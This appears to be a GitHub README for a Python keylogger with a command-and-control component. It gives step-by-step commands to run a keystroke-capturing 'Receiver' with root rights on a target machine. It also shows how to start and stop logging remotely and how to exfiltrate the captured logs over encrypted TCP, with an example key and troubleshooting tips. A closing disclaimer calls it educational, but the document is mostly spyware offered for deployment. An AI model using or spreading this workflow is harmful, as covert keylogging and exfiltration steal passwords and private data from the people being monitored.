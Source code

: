 ## Keylog Data Exfiltration
🚀 **A Secure Command & Control (C2) System for Remote Keylogging and Data Exfiltration**

# 📌 Overview
This project is a Python-based Command & Control (C2) system that enables a **remote machine (Receiver)** to capture keystrokes and securely **exfiltrate logs** to a **Sender machine** over a TCP connection.

🔒 **Features**:

* Remote keylogging activation & deactivation.
* Secure AES-CBC **encryption** for log exfiltration.
* Reliable **TCP communication** between sender and receiver.
* **Automatic retransmission** of lost data chunks.
* **Wireshark-compatible** for monitoring network traffic.

# 🛠️ Setup Instructions
## 🔹 1. Install Dependencies
Ensure you have Python 3.x installed, then install required libraries:
```aiignore
pip install -r requirements.txt
```
If using a virtual environment:
```aiignore
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
```

## 🔹 2. Running the Receiver (Keylogger)
The **Receiver** should be run on the target machine. It listens for commands from the sender.
```
sudo $(which python) receiver.py <PORT> <AES_DECRYPTION_KEY>
```

Example:
```aiignore
sudo $(which python) receiver.py 12345 00112233445566778899AABBCCDDEEFF
```

**Note:** Running with `sudo `is required for capturing keystrokes.

## 🔹 3. Running the Sender (Command & Control)
The **Sender** sends commands to the Receiver to start keylogging, stop keylogging, and exfiltrate logs.
```aiignore
python3 sender.py <COMMAND> <RECEIVER_IP> <PORT> --decryption_key <AES_KEY>
```

### Example Commands:

### 1️⃣ Start Keylogger
```aiignore
python3 sender.py START_KEYLOGGER 192.168.x.x 12345
```

### 2️⃣ Stop Keylogger
```
python3 sender.py STOP_KEYLOGGER 192.168.x.x 12345
```

### 3️⃣ Exfiltrate Logs
```
python3 sender.py EXFILTRATE_LOG 192.168.x.x 12345 --decryption_key 00112233445566778899AABBCCDDEEFF
```

# 📡 Network Traffic Analysis with Wireshark
To monitor communications:

1. Open **Wireshark**.
2. Select the **network interface** (e.g., xxxxx for WiFi).
3. Start capturing packets.
4. Apply a filter to view only relevant traffic:
```aiignore
tcp.port == 12345
```
Run the **Sender and Receiver** to observe encrypted data transfer.

# 🛠️ Troubleshooting
## 1️⃣ SSH Issues
* Ensure SSH service is running on the remote machine:
```
sudo systemctl start ssh
```

* If connection fails, restart networking:
```
sudo systemctl restart NetworkManager
```

* Check IP address with:
```
ip a
```

## 2️⃣ Module Not Found (Crypto)
If **ModuleNotFoundError**: **No module named 'Crypto'** occurs:
```
pip install pycryptodome
```

## 3️⃣ Wireshark Not Capturing Packets
* Run Wireshark as root:
```
sudo wireshark &
```

* Ensure the correct network interface is selected.
# 📜 License
This project is for educational purposes only. Unauthorized use may violate privacy laws. Use responsibly. 🚀

